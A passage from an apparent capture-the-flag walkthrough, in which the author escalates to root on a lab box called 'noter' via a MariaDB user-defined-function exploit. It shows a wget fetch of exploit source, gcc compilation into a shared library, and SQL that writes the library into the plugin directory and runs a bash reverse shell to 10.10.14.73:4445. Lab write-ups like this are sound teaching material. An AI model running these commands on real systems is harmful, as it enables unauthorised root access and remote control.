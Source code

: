 I still have my Python web server running on Kali so let's pull the file over to the box:

```text
svc@noter:~/app/web$ cd /dev/shm

svc@noter:/dev/shm$ wget http://10.10.14.73/1518.c
--2022-05-22 20:17:46--  http://10.10.14.73/1518.c
Connecting to 10.10.14.73:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3281 (3.2K) [text/x-csrc]
Saving to: ‘1518.c’
1518.c     100%[==========>]   3.20K  --.-KB/s    in 0.004s  
2022-05-22 20:17:46 (741 KB/s) - ‘1518.c’ saved [3281/3281]
```

Now we follow HackTricks to compile the exploit:

```text
svc@noter:/dev/shm$ gcc -g -c 1518.c
svc@noter:/dev/shm$ gcc -g -shared -Wl,-soname,pencer.so -o pencer.so 1518.o -lc
```

I've now got the exploit compiled in to a shared library called pencer.so. Next let's log in to mysql as root:

```text
svc@noter:/dev/shm$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 13022
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]>
```

It took me a little while to get the exploit to work because there is a clean-up script running quite frequently. It's removing tables we create and deleting files that we are dumping. So to make it easy I put the commands in a script and called it from the command line.

Here's my MySQL commands taken from the information on HackTricks site and adjusted a little:

```text
svc@noter:/dev/shm$ cat sql_script.txt 
use mysql;
create table npn(line blob);
insert into npn values(load_file('/dev/shm/pencer.so'));
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/pencer.so';
create function do_system returns integer soname 'pencer.so';
select do_system('bash -c "bash -i >& /dev/tcp/10.10.14.73/4445 0>&1"');
```

This is creating a table, inserting my exploit in to it, dumping that table out to a file and then creating a function called do_system using it. This function allows me to execute code as root so I'm using it to open a reverse shell back to my Kali.

Now just run that from the command line on the box:

